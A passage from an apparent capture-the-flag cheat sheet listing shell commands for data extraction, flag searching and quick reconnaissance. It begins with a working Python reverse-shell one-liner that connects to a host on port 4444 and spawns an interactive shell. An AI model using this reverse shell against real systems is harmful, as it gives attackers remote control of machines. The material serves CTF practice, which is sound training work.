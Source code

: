 ```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Data Extraction
```bash
# Extract data between markers
sed -n '/BEGIN/,/END/p' file.txt
awk '/BEGIN/,/END/' file.txt

# Base64 decode from file
cat file.txt | tr -d '\n' | base64 -d

# URL decode
python3 -c "import sys,urllib.parse; print(urllib.parse.unquote(sys.argv[1]))" "$url"

# Extract emails from text
grep -oE '\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b' file.txt
```

---

## 🎯 CTF-Specific Commands

### Flag Formats
```bash
# Common flag patterns
flag{.*}
FLAG{.*}
[A-Za-z0-9_]+{.*}
ctf{.*}
[event]{.*}

# Search for flag patterns
grep -rE "flag\{[^}]+\}" /path/
grep -rE "[A-Za-z0-9_]+\{[^}]+\}" /path/
```

### Quick Wins
```bash
# Check for hidden files
ls -la
find . -name ".*" -type f

# Environment variables
env | grep -i flag
printenv | grep -i flag

# Process information
ps aux | grep flag
ps -ef | grep flag

# Network connections
netstat -tulpn | grep flag
ss -tulpn | grep flag

# Check running services
systemctl list-units --type=service | grep flag
```

---